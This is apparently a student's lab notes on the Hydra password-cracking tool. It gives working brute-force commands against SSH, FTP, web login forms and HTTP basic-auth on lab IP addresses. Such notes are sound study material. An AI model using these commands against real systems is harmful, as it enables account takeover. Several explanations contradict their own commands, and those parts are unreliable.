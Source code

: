## Introduction
- Hydra is a brute force online password cracking program, a quick system login password “hacking” tool.
- Hydra can run through a list and “brute force” some authentication services.
- Hydra supports, i.e., has the ability to brute force the following protocols: “Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MEMCACHED, MONGODB, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, Radmin, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, TeamSpeak (TS2), Telnet, VMware-Auth, VNC and XMPP.”

## Installing Hydra
```python
apt install hydra
```

## Hydra Commands

- The options we pass into Hydra depend on which service (protocol) we’re attacking.

**Example** - 
if we wanted to brute force FTP with the username being `user` and a password list being `passlist.txt`, we’d use the following command:
```python
hydra -l user -P passlist.txt ftp://10.10.162.94
```

### SSH
```python
hydra -l <username> -P <full path to pass> 10.10.162.94 -t 4 ssh
```

![[hydra1.png]]

**Example** - 
```python
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.162.94 -t 4 ssh
```
- Hydra will use `root` as the username for `ssh`
- It will try the passwords in the `passwords.txt` file
- There will be four threads running in parallel as indicated by `-t 4`

#### SSH to account
```python
ssh molly@10.10.162.94
```
### Post Web Form
- We can use Hydra to brute force web forms too.
- You must know which type of request it is making; GET or POST methods are commonly used.
- You can use your browser’s network tab (in developer tools) to see the request types or view the source code.
```python
sudo hydra <username> <wordlist> 10.10.162.94 http-post-form "<path>:<login_credentials>:<invalid_response>"
```
![[hydra2.png]]

#### Below is a more concrete example of Hydra command to brute force a POST login form:
```python
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.2.70 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid" -V 
```
- The login page is only `/`, i.e., the main IP address.
- The `username` is the form field where the username is entered
- The specified username(s) will replace `^USER^`
- The `password` is the form field where the password is entered
- The provided passwords will be replacing `^PASS^`
- Finally, `F=incorrect` is a string that appears in the server reply when the login fails

**Example** - 
```python
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.162.94 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
```

## Brute-forcing Default Passwords(get)
An example used is a page that prompts `Basic HTTP Authentication` form to input the username and password.
![[hydra.webp]]

**The hydra command to brute-force the above:**
```python
hydra -l bob -P /usr/share/wordlists/rockyou.txt -f MachineIP http-get /protected/
```

**Example** - 
```python
hydra -l bob -P /usr/share/wordlists/rockyou.txt -f 10.10.76.6 http-get /protected/
```
Let’s break the commands down.

- -l = login with name
- -P = wordlist or path to wordlist
- -f = Exit when login/pass pair is found
- MachineIP = the target
- http-get = Service
- /protected/ = the webpage with login